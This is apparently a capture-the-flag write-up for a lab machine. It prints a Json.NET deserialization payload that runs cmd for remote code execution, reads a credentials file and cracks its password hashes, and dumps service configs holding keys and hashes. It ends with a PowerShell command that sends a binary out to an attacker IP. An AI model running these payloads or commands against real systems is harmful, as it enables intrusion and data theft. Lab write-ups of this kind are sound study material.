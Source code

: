 ![](./logo.png)

# USER

After enumeration of the website it can be seen there is some obfuscated `javascript`.

```javascript
var _0xd18f = ["\x70\x72\x69\x6E\x63\x69\x70\x61\x6C\x43\x6F\x6E\x74\x72\x6F\x6C\x6C\x65\x72", "\x24\x68\x74\x74\x70", "\x24\x73\x63\x6F\x70\x65", 
"\x24\x63\x6F\x6F\x6B\x69\x65\x73", "\x4F\x41\x75\x74\x68\x32", "\x67\x65\x74", "\x55\x73\x65\x72\x4E\x61\x6D\x65", "\x4E\x61\x6D\x65", "\x64\x61\x74\x61", 
"\x72\x65\x6D\x6F\x76\x65", "\x68\x72\x65\x66", "\x6C\x6F\x63\x61\x74\x69\x6F\x6E", "\x6C\x6F\x67\x69\x6E\x2E\x68\x74\x6D\x6C", "\x74\x68\x65\x6E", 
"\x2F\x61\x70\x69\x2F\x41\x63\x63\x6F\x75\x6E\x74\x2F", "\x63\x6F\x6E\x74\x72\x6F\x6C\x6C\x65\x72", "\x6C\x6F\x67\x69\x6E\x43\x6F\x6E\x74\x72\x6F\x6C\x6C\x65\x72", 
"\x63\x72\x65\x64\x65\x6E\x74\x69\x61\x6C\x73", "", "\x65\x72\x72\x6F\x72", "\x69\x6E\x64\x65\x78\x2E\x68\x74\x6D\x6C", "\x6C\x6F\x67\x69\x6E", 
"\x6D\x65\x73\x73\x61\x67\x65", "\x49\x6E\x76\x61\x6C\x69\x64\x20\x43\x72\x65\x64\x65\x6E\x74\x69\x61\x6C\x73\x2E", "\x73\x68\x6F\x77", "\x6C\x6F\x67", 
"\x2F\x61\x70\x69\x2F\x74\x6F\x6B\x65\x6E", "\x70\x6F\x73\x74", "\x6A\x73\x6F\x6E", "\x6E\x67\x43\x6F\x6F\x6B\x69\x65\x73", "\x6D\x6F\x64\x75\x6C\x65"]; angular[_0xd18f
[30]](_0xd18f[28], [_0xd18f[29]])[_0xd18f[15]](_0xd18f[16], [_0xd18f[1], _0xd18f[2], _0xd18f[3], function (_0x30f6x1, _0x30f6x2, _0x30f6x3) { _0x30f6x2[_0xd18f[17]] = 
{ UserName: _0xd18f[18], Password: _0xd18f[18] }; _0x30f6x2[_0xd18f[19]] = { message: _0xd18f[18], show: false }; var _0x30f6x4 = _0x30f6x3[_0xd18f[5]](_0xd18f[4]); if 
(_0x30f6x4) { window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[20] }; _0x30f6x2[_0xd18f[21]] = function () { _0x30f6x1[_0xd18f[27]](_0xd18f[26], _0x30f6x2[_0xd18f[17]])
[_0xd18f[13]](function (_0x30f6x5) { window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[20] }, function (_0x30f6x6) { _0x30f6x2[_0xd18f[19]][_0xd18f[22]] = _0xd18f[23]; 
_0x30f6x2[_0xd18f[19]][_0xd18f[24]] = true; console[_0xd18f[25]](_0x30f6x6) }) } }])[_0xd18f[15]](_0xd18f[0], [_0xd18f[1], _0xd18f[2], _0xd18f[3], function (_0x30f6x1, 
_0x30f6x2, _0x30f6x3) { var _0x30f6x4 = _0x30f6x3[_0xd18f[5]](_0xd18f[4]); if (_0x30f6x4) { _0x30f6x1[_0xd18f[5]](_0xd18f[14], { headers: { "\x42\x65\x61\x72\x65\x72": 
_0x30f6x4 } })[_0xd18f[13]](function (_0x30f6x5) { _0x30f6x2[_0xd18f[6]] = _0x30f6x5[_0xd18f[8]][_0xd18f[7]] }, function (_0x30f6x6) { _0x30f6x3[_0xd18f[9]](_0xd18f[4])
; window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[12] }) } else { window[_0xd18f[11]][_0xd18f[10]] = _0xd18f[12] } }])
```

Running this through an online deobfuscator alongside a script that substitutes all values in the list `_0xd18f`, we can obtain a cleaner version. Below is the readable `javascript`:

```javascript
angular[module](json, [ngCookies])[controller](loginController, [$http, $scope, $cookies, function (_0x30f6x1, _0x30f6x2, _0x30f6x3) {
    _0x30f6x2[credentials] = {
        UserName: "",
        Password: ""
    };
    _0x30f6x2[error] = {
        message: "",
        show: false
    };
    var _0x30f6x4 = _0x30f6x3[get](OAuth2);
    if (_0x30f6x4) {
        window[location][href] = index.html
    };
    _0x30f6x2[login] = function () {
        _0x30f6x1[post](/api/token, _0x30f6x2[credentials])[then](function (_0x30f6x5) {
            window[location][href] = index.html
        }, function (_0x30f6x6) {
            _0x30f6x2[error][message] = Invalid Credentials.;
            _0x30f6x2[error][show] = true;
            console[log](_0x30f6x6)
        })
    }
}])[controller](principalController, [$http, $scope, $cookies, function (_0x30f6x1, _0x30f6x2, _0x30f6x3) {
    var _0x30f6x4 = _0x30f6x3[get](OAuth2);
    if (_0x30f6x4) {
        _0x30f6x1[get](/api/Account/, {
            headers: {
                "Bearer": _0x30f6x4
            }
        })[then](function (_0x30f6x5) {
            _0x30f6x2[UserName] = _0x30f6x5[data][Name]
        }, function (_0x30f6x6) {
            _0x30f6x3[remove](OAuth2);
            window[location][href] = login.html
        })
    } else {
        window[location][href] = login.html
    }
}])
```
The code seems to be handling the login for user authentication. 

What caught my eye wass the implication to add a `Bearer` header to a GET request to `/api/account`

Doing this provides us with the output below:

```xml
<Error>
  <Message>An error has occurred.</Message>
  <ExceptionMessage>Invalid format base64</ExceptionMessage>
  <ExceptionType>System.Exception</ExceptionType>
  <StackTrace />
</Error>
```

Then, adding valid `base64` gives us:

```xml
<Error>
  <Message>An error has occurred.</Message>
  <ExceptionMessage>Cannot deserialize Json.Net Object</ExceptionMessage>
  <ExceptionType>System.Exception</ExceptionType>
  <StackTrace />
</Error>
```

Researching online has provided linked to Json.NET desearalize vulerabilities.

A [payload generator](https://github.com/pwntester/ysoserial.net) was used to create a payload. This when sent executes our command!

The payload used is below:

```json
{
    "$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35", 
    "MethodName":"Start",
    "MethodParameters":{
        "$type":"System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "$values":["cmd","/c <COMMAND>"]
    },
    "ObjectInstance":{"$type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"},
    "m_userToken": 0
}
```

This allows RCE and spawns a shell on the box! The exploit has been encapsulated in `exploit.py`. This lets us grab the `user.txt`!

# ROOT

Present in the `IS` server is a `usercredentials` file

```bash
$ more "C:\inetpub\wwwroot\jsonapp\dbdata\userscredentials - Copy.json"
```
```json
[
    {
      "Id": 1,
      "UserName": "puppet",
      "Password": "0571749e2ac330a7455809c6b0e7af90",
      "Name": "User Admin HTB",
      "Rol": "Administrator"
    },
    {
      "Id": 1,
      "UserName": "ansible",
      "Password": "84d961568a65073a3bcf0eb216b2a576",
      "Name": "User",
      "Rol": "User"
    }
]
```

Cracking these hashes gives us:

```
puppet:sunshine
ansible:superman
```


```
Thursday, October 3, 2019 -- Upload File password.txt
Thursday, October 3, 2019 -- System.Net.WebException: The remote server returned an error: (550) File unavailable (e.g., file not found, no access).
   at System.Net.FtpWebRequest.SyncRequestCallback(Object obj)
   at System.Net.FtpWebRequest.RequestCallback(Object obj)
   at System.Net.CommandStream.Dispose(Boolean disposing)
   at System.IO.Stream.Close()
   at System.IO.Stream.Dispose()
   at System.Net.ConnectionPool.Destroy(PooledStream pooledStream)
   at System.Net.ConnectionPool.PutConnection(PooledStream pooledStream, Object owningObject, Int32 creationTimeout, Boolean canReuse)
   at System.Net.FtpWebRequest.FinishRequestStage(RequestStage stage)
   at System.Net.FtpWebRequest.GetRequestStream()
   at SyncLocation.Service1.Copy()
```

$path = 'C:\Program Files'; $path -replace ' ', '` '; cd $path

<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>


<FileZillaServer>
    <Settings>
        <Item name="Admin port" type="numeric">14147</Item>
    </Settings>
    <Groups />
    <Users>
        <User Name="superadmin">
            <Option Name="Pass">813CCFB086CB6C9046F13F1E10D5222ECB63E11A809C133580577B5597D28EB079F6DDD5AA52D1503BED569C72B589F165FC02993C51E0994A6290A0356EC2A0</Option>
            <Option Name="Salt">cwl.PD(Zw&lt;EA-@&gt;ux6z,]l5U7]$Cr@cW?aD4~:j4&quot;%_*\6k&quot;Uk{1k@P7IX`.K7v0</Option>
            <Option Name="Group"></Option>
            <Option Name="Bypass server userlimit">0</Option>
            <Option Name="User Limit">0</Option>
            <Option Name="IP Limit">0</Option>
            <Option Name="Enabled">1</Option>
            <Option Name="Comments"></Option>
            <Option Name="ForceSsl">0</Option>
            <IpFilter>
                <Disallowed />
                <Allowed />
            </IpFilter>
            <Permissions>
                <Permission Dir="C:\Users\superadmin">
                    <Option Name="FileRead">1</Option>
                    <Option Name="FileWrite">0</Option>
                    <Option Name="FileDelete">0</Option>
                    <Option Name="FileAppend">0</Option>
                    <Option Name="DirCreate">0</Option>
                    <Option Name="DirDelete">0</Option>
                    <Option Name="DirList">1</Option>
                    <Option Name="DirSubdirs">1</Option>
                    <Option Name="IsHome">1</Option>
                    <Option Name="AutoCreate">0</Option>
                </Permission>
            </Permissions>
            <SpeedLimits DlType="0" DlLimit="10" ServerDlLimitBypass="0" UlType="0" UlLimit="10" ServerUlLimitBypass="0">
                <Download />
                <Upload />
            </SpeedLimits>
        </User>
    </Users>
</FileZillaServer>

Invoke-RestMethod -Uri http://10.10.14.14:8000 -Method Post -InFile SyncLocation.exe